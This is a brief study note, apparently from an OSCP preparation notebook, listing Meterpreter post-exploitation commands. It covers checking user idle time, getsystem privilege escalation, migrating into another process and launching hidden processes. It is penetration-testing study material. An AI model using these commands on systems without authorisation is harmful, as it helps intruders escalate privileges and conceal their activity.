 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/l-metasploit-framework/5-meterpreter-post-exploitation/","updated":"2024-01-05T11:36:32.591+01:00"}
---
```


------
### User activity on target:
```
idletime
```

### Getsystem:
```
getsystem
```
------------
### Process Tampering:

Process Injection
- Can only migrate to same or lower privs
- New shell will inherit that process' privileges and user
```
#Enumerate processes:
ps

#Inject process:
migrate <pid>
```

Create new process:
- -H for hidden
- -F to specify program to run
```
execute -H -f notepad
```


